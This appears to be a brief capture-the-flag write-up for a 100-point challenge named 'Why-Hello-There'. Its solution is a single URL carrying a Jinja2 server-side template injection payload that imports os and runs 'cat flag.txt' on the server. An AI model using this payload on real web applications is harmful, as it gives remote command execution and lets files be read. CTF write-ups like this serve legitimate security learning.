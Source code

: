 ## Table of Contents

- [Why-Hello-There - 100 points](#why-hello-there\-\100\points)

# Why-Hello-There - 100 points
Solution:
```bash
localhost:5000/?name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
- Never let go thy memes




